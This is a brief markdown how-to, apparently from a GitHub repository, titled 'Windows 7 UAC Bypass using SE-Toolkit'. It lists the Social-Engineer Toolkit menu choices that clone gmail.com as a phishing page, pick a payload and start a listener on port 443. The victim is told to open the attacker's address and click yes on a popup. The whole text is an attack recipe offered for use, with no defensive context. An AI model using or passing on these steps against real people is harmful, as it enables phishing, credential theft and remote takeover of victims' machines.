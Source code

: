 ## Windows 7 UAC Bypass using SE-Toolkit


### Windows 7 OS:

In browser enter https://<ipaddress kali linux>

click yes on popup..


### Kali Linux:

**Se-toolkit**

set> 1

set> 2

set> 1

set> 2

set:Webattack> Enter the url to clone:https://gmail.com


set:paylods> 9

set:paylods> PORT of the listener [443]:

listining...
